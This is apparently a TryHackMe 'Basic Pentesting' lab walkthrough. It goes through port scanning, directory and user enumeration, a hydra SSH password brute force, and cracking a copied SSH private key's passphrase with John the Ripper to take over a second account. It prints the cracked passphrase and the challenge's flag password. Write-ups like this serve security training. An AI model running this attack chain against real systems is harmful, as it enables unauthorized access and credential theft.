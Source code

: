 # [Basic Pentesting](https://tryhackme.com/room/basicpentestingjt)

> This is a machine that allows you to practise web app hacking and privilege escalation

## Scanning

scan the machine

```
nmap -A -T4 10.10.3.159
```

![image](https://user-images.githubusercontent.com/90561566/201595571-66955a77-92c2-4595-8b18-7bc2fb6a639b.png)

There are 6 open and 6 filterd ports (total 12) to discover

## HTTP

go to the webpage

![image](https://user-images.githubusercontent.com/90561566/201596415-920d1fe7-db23-45b1-9e5b-cfcdd09538f4.png)

nothing here

## Enumeration

scan directories with gobuster

```
gobuster dir -u http://10.10.3.159/ -w /usr/share/wordlists/dirb/common.txt -t 30
```

![image](https://user-images.githubusercontent.com/90561566/201596771-7e2d4256-9eaa-48ac-add1-3bfcdc486e68.png)

we find an endpoint at /development

![image](https://user-images.githubusercontent.com/90561566/201596974-894f4168-30ad-44b6-8d77-d9ef6ccbbffc.png)

j.txt

![image](https://user-images.githubusercontent.com/90561566/201597065-11314392-492f-444f-aa6d-8551acf64d46.png)

dev.txt

![image](https://user-images.githubusercontent.com/90561566/201597215-b8a10c73-6708-487a-b95e-4bc690a7008e.png)

hmm, we will use enum4linux to enumerate users 

```
enum4linux -a 10.10.3.159
```

![image](https://user-images.githubusercontent.com/90561566/201598898-fb5ba835-85af-45d9-92e4-bc10a91601ef.png)

we can see 2 users are `kay` and `jan` aka K & J in the previous task

## Exploitation

now we use hydra to brute force the password

we have the information about the open ports and SSH is a great candidate

```
hydra -l jan -P /usr/share/wordlists/rockyou.txt ssh://10.10.3.159
```

wait about 8 mins, there is your password

![image](https://user-images.githubusercontent.com/90561566/201611043-e714f25a-370c-4d0b-966f-51303e662e56.png)

now we can ssh into the server

```
ssh jan@10.10.154.165
```

![image](https://user-images.githubusercontent.com/90561566/201611517-7825cde1-9a90-46a2-b343-2ee76f29dc19.png)

## Privilege Escalation

let's find something around, i see a lot of awesome files in kay folder

![image](https://user-images.githubusercontent.com/90561566/201612657-60cac56f-ed34-4226-b8ce-cbac5069f5e5.png)

we cannot read pass.bak at the moment

but we can crack ssh key

![image](https://user-images.githubusercontent.com/90561566/201613947-e61ae35c-48d6-4ef2-af09-7ccc4128a04d.png)

unfortulately, it requires a passphrase

but we can cat out this file and crack the key with JohnTheRipper by [ssh2john.py](https://github.com/openwall/john/blob/bleeding-jumbo/run/ssh2john.py)

first clone id_rsa to our machine and 

```
python3 ssh2john.py id_rsa > id_rsa.txt
```

crack the passphrase

```
john --wordlist=/usr/share/wordlists/rockyou.txt id_rsa.txt
```

![image](https://user-images.githubusercontent.com/90561566/201619172-4071e65c-9f6d-4909-84fa-026919c3a6ab.png)

passphrase is `beeswax`

now ssh to kay account

```
ssh -i id_rsa kay@localhost
```

![image](https://user-images.githubusercontent.com/90561566/201619950-1ab5730f-dc67-474b-9627-08361afd23e3.png)

here is your flag

```
cat pass.bak
```

| Flag | pass.bak |
| --- | --- |
| Answer | heresareallystrongpasswordthatfollowsthepasswordpolicy$$ |
